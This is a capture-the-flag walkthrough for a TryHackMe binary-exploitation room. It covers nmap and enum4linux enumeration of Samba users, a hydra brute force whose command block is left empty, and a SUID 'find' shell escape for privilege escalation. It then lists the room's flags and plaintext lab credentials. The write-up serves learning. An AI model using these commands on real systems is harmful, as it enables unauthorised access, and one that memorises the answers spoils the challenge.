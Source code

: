 see: [write-up](https://www.notion.so/BINEX-WRITE-UP-346d388fc1a34ceb83bfbb20318fb58b)


Task1: Gain Initial access
--------------------------

nmap

```
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3OBXYJUrPGglNoKPhUcwp3YiZRy6qNTHdOmGsgzy5ll+GDY8zkoIsNiqdHSaDKXvO+9ix+dZNF9CtgRDrLhL6j2Bn4RI011xveUiTF6LO7PEsv5RYI7KueOXyaw8vahdf/CdV4RQXhefge6FIZqkvhDGQsid8F3e846kJ7FPZYAcwQ5Iapv9ae1+23OZcDLtdTDlQOZIyNaVmPu0XVjHYnvHsC5r/eX/wq9WzETDVzgANMwsWOeZmjH956z4hjL7K91KHeaMnRHeO/tln1Pk9EG1eGn4FHsD1/LdumWp0pHDUXwTJ7OwuuucnzuiLrx8jDr03bEu4kPKpkB0Bc1Kb
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJlazDOaT1mvebWCf/KbUSzgt3MCueCjEYz6Uf6tDyYG5H7HsVTbKbphLPJupB3gght1wmk+8BpQe8q4fa+1ZXQ=
|   256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIdOXbBN4ecgx8K412W8m2fd7R6y7c0O9uXXFv+gLusY
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Host: `thm_exploit`

port: 139 and 445 => smb enumeration for linux...

In hint: Hint 1: RID range 1000-1003
```
enum4linux -R 1000-1003 $IP

---snip ---
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
---snip---

```
and another hint: The longest username has the unsecure password.

Obviously, username will be tryhackme for this challenge and also it the longest...

Now cracking with hydra...
```


```

Got the passwd and now login to victim via ssh


Task2: SUID::Binary 1
----------------------

Now to get the flag we have to access des home directory, for that we have to find suid binary to priv-esc

```
$ find / -type f -perm -u=s -user des -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
```

Using GTFO bin: 
```
find . -exec /bin/bash -p \; -quit
```

we got the flag as well as some info:
```
You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
```

1. What is the contents of /home/des/flag.txt?

--> THM{exploit_the_SUID}


Task3: Buffer Overflow::Binary 2
--------------------------------

1. What is the contents of /home/kel/flag.txt?

--> `THM{buffer_overflow_in_64_bit}`


Other infos:
```
The user credential
username: kel
password: kelvin_74656d7065726174757265
```

Task4: PATH Manipulation::Binary3
----------------------------------

Get the root flag from the root directory. This will require you to understand how the PATH variable works.

1. What is the contents of /root/root.txt?

--> `THM{SUID_binary_and_PATH_exploit}`

see: [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/] (https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

